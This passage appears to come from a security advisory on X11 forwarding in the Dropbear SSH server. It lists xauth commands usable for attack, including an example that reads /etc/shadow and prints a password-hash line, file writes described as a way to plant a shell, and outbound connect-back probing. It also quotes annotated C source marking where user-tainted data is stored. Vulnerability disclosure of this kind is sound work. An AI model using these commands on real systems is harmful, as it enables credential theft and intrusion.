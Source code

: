 Interesting commands are:
	
	info	 - leaks environment information / path
			~# xauth info
			xauth:  file /root/.Xauthority does not exist
			Authority file:       /root/.Xauthority
			File new:             yes
			File locked:          no
			Number of entries:    0
			Changes honored:      yes
			Changes made:         no
			Current input:        (argv):1
	
	source	 - arbitrary file read (cut on first `\s`)
			# xauth source /etc/shadow
			xauth:  file /root/.Xauthority does not exist
			xauth: /etc/shadow:1:  unknown command "smithj:Ep6mckrOLChF.:10063:0:99999:7:::"
						
	extract  - arbitrary file write 
			 * limited characters
	         * in xauth.db format
	         * since it is not compressed it can be combined with `xauth add` to 
	           first store data in the database and then export it to an arbitrary
	           location e.g. to plant a shell or do other things.
	
	generate - connect to <ip>:<port> (port probing, connect back and pot. exploit
			   vulnerabilities in X.org
	
	
Source
------

Inline annotations are prefixed with `//#!`

* handle x11 request, stores cookie in `chansess`
	```c
	/* called as a request for a session channel, sets up listening X11 */
	/* returns DROPBEAR_SUCCESS or DROPBEAR_FAILURE */
	int x11req(struct ChanSess * chansess) {
	
		int fd;
	
		/* we already have an x11 connection */
		if (chansess->x11listener != NULL) {
			return DROPBEAR_FAILURE;
		}
	
		chansess->x11singleconn = buf_getbyte(ses.payload);
		chansess->x11authprot = buf_getstring(ses.payload, NULL);			//#! store user tainted data
		chansess->x11authcookie = buf_getstring(ses.payload, NULL);			//#! store user tainted data
		chansess->x11screennum = buf_getint(ses.payload);
	```
	
* set auth cookie/authprot

